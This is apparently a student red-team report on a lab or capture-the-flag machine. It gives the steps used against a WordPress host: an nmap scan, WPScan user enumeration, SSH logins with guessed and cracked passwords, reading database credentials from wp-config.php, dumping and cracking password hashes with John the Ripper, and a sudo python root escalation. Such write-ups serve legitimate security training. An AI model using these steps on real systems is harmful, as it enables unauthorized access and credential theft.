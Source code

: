 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![image](Screenshots/NmapScan.JPG "Nmap Scan Results")

```bash
$ nmap -sV 192.168.1.110

  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn
```

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
   - Port 22/TCP Open SSH
   - Port 80/TCP Open HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - allowed remote access usign ssh 
  - User enumeration
  - Weak Passwords 
  - Misconfiguration of priviledges 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1{b9bbcb33e11b80be759c4e844862482d}`
    - **Exploit Used**
      - Used WPScan to enumerate users on the target machine 

![image](Screenshots/WPScan.JPG)
   
      - then used ssh to remote access target 1 and logged into micheal's account with an easy to guess password. 
      - Username: michael
      - Password: michael 
      - Commands used: 
        - ssh michael@192.168.1.110 -p22
        - cd ..
        - cd ..
        - cd var/www/html
        - ls
        - nano service.html
   
![image](Screenshots/Flag1.JPG)
    
  - `flag2 {fc3fd58dcdad9ab23faca6e9a36e581c}`
    - **Exploit Used**
    - Same as flag1. A flag2.txt file was found by snooping around in Micheal's account folders
    - Commands used:
     - cd ..
     - cd ..
     - ls
     - cat flag2.txt
      
 ![image](Screenshots/Flag2.JPG)
 
  - flag3 {afc01ab56b50591e7dccf93122770cd2} 
  - flag4 {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used** 
    - Used credentials from wp-config.php file for MYSQL database, I logged into MYSQL. Flags 3 and 4 were found in the wp_posts tabel in the MYAQL wordpress database   
 
 ![image](Screenshots/Flag3and4.JPG)
 
 - Flag 4 can also also be foud using the following method
   - Use MySQl credentials in the wp-config file located on Micheal's account to log into MySQL. 
   - User hashes were also discovered in the wp_users table of the wordpress database. The password hashes were then copied to the Kali machine in a file called wp_hashes.txt.
        
![MySQL Credentials](Screenshots/MYSQLDatabasePassword.JPG)

![MySQL Access](Screenshots/MYSQLDatabaseAcess.JPG)

- Commands used:
    - mysql -u root -p (password: R@v3nSecurity from the wp-config.php file on michael's account)
    - show databases;`
    - use wordpress;` 
    - show tables;`
    - select * from wp_users;`
![MySQL Hashes](Screenshots/MYSQLPasswordHashes.JPG)

 - After dumping the password hashes into a wp_hashes.txt file onto the Kali machine, I used John the Ripper to crack steven's password
 - Command: `john wp_hashes.txt`
 - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then I used sudo -l to check for steven's priviledges which showed that he was allowed to run python commands with out credentials. 
 - 
 ![Cracked Steven's Hash](Screenshots/JohnCrackedHashSteven.JPG)
 
 ![Steven's Priviledges](Screenshots/StevenPriviledges.png)
 
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c 'import os; os.system("bin/bash/")
                - `cd /root`
                - `ls`
                - `cat flag4.txt`
                
![Falg 4](Screenshots/flag4.png)

